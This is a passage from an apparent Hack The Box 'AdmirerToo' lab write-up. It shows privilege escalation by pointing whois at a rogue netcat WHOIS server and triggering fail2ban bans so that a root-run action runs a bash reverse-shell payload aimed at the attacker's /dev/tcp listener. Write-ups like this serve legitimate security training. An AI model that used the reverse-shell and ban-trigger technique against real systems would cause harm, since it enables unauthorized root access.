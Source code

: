 ```
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

```bash
jennifer@admirertoo:~$ ls /usr/local/etc/
jennifer@admirertoo:~$ ls /usr/local/etc/
whois.conf
jennifer@admirertoo:~$ cat /usr/local/etc/whois.conf
[{"Expires":1,"Discard":false,"Value":"}]|. [10.10.14.2]\n"}]
```

Preparing and testing the WHOIS rogue server:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ echo '~| bash -c "bash -i >& /dev/tcp/10.10.14.2/10099 0>&1" &' > fail2ban-rev.sh

┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ sudo nc -nvlkp 43 -c "cat fail2ban-rev.sh"
[sudo] password for kali:
listening on [any] 43 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.137] 52964
```

```bash
jennifer@admirertoo:~$ whois 10.10.14.2
~| bash -c "bash -i >& /dev/tcp/10.10.14.2/10099 0>&1" &
fgets: Connection reset by peer
```

Now we can force fail2ban into banning our IP in order to send an email to root (with root privileges) containing out malicious payload and obtaining RCE.

Rogue WHOIS server:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ sudo nc -nvlkp 43 -c "cat fail2ban-rev.sh"
[sudo] password for kali: 
listening on [any] 43 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.137] 52976
```

Attempting to get banned:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ ssh jennifer@admirertoo.htb
ssh: connect to host admirertoo.htb port 22: Connection refused
                                                                                                                    
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ ssh jennifer@admirertoo.htb
jennifer@admirertoo.htb's password: 
Permission denied, please try again.
jennifer@admirertoo.htb's password: 
Permission denied, please try again.
jennifer@admirertoo.htb's password: 
jennifer@admirertoo.htb: Permission denied (publickey,password).
                                                                                                                    
┌──(kali㉿kali)-[~/…/HTB/B2R/AdmirerToo/exploit]
└─$ ssh jennifer@admirertoo.htb
ssh: connect to host admirertoo.htb port 22: Connection refused
...
```
